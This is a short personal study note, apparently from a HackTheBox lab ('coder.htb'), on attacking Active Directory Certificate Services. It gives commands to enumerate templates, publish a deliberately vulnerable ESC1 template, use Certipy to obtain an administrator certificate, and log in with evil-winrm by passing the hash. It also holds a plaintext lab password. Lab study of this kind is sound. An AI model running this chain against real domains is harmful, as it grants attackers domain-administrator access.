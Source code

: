 ```yaml
---
creation date: April 7th 2023
last modified date: April 7th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Active Directory Certificate Services (AD CS)]]  
___

## Description:  

**enumerate on the machine with [ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate)**

```
import-module "C:/Users/e.black/Documents/ADCSTemplate.psm1"
Get-ADCSTemplate

# clean output
Get-ADCSTemplate | Sort-Object Name | ft Name, Created, Modified
```


Use [[Certify]] on the machine and [[Certipy]] for remote


### Enumerate access control information for PKI objects
[[Certify]]
`Certify.exe pkiobjects [/domain:domain.local] [/showAdmins] [/quiet]`

You can then create a vulnerable template:

use [ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) to set requirements for EC1

```
Import-Module C:\Users\e.black\Documents\ADCSTemplate

Export-ADCSTemplate -DisplayName Administrator > .\Administrator.json
```

Make changes to the json, you can get a vuln template from here: https://github.com/Orange-Cyberdefense/GOAD/blob/main/ansible/roles/adcs_templates/files/ESC1.json
```
New-ADCSTemplate -DisplayName ESC1 -JSON (Get-Content .\tmp.json -Raw) -Publish -Identity "CODER\PKI Admins"
```
Then exploit it:
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -stdout -vulnerable

/home/kali/.local/bin/certipy req -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -template ESC1 -ca coder-DC01-CA -upn administrator@coder.htb

sudo ntpdate -u 10.10.11.207

/home/kali/.local/bin/certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'coder.htb' -dc-ip 10.10.11.207

evil-winrm -i coder.htb -u Administrator -H 'inputhashhere'

```
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 7th 2023 (02:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
